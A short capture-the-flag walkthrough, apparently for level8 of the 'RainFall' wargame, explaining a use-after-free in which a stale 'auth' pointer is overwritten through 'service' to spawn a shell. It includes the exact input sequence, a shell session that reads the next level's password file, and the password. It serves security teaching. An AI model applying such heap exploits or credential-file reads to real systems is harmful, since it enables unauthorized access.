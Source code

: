 # Walkthrough

## Disassembly executable

see source.c

## Analysis

After the disasembly we see that auth isn't set to NULL when we used 'reset' option. So auth still point to the same space of memory as before. Then we allocate more space with a longer string using strdup on service so service and auth point on the same location. Then we call login and here we are '/bin/sh'.

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, (nil) 
reset  
0x804a008, (nil) 
serviceaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, 0x804a018 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
